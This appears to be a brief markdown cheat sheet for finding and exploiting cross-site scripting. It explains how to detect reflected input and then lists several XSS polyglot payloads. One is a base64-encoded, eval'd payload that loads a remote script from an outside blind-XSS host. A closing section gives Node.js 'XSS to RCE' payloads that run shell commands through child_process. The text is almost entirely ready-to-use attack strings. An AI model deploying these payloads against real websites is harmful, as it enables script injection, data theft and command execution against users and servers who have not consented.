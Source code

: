 # XSS

### Scope:
```
GET|POST parameters
Path
```

### Detect reflections

past some keyword for detecting reflections in response like ```PayloadHere``` and send request.
search in response keyword ```PayloadHere```
if keyword reflected than past xss payloads.

### XSS Polyglots:
```
%3C!%27/*!%22/*!\%27/*\%22/* — !%3E%3C/Title/%3C/script/%3E%3CInput%20Type=Text%20Style=position:fixed;top:0;left:0;font-size:999px%20*/;%20Onmouseenter=confirm`1`%20//%3E#
```
```
<!'/*!”/*!\'/*\"/* — !></Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`1` //>#
```
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/ — !>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
```
">><marquee><img src=x onerror=confirm(1)></marquee>” ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’ →” >
"></script><script>alert(1)</script>”><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'">"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnhzcy54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
```
```
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))// →</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```
### From XSS to RCE

From xss to rce payload for nodejs application

```
<TagName EventHandler="require('child_process').execSync('calc.exe')">
```
or for Linux

```
<TagName EventHandler="require('child_process').exec('gnome-
calculator');">
```
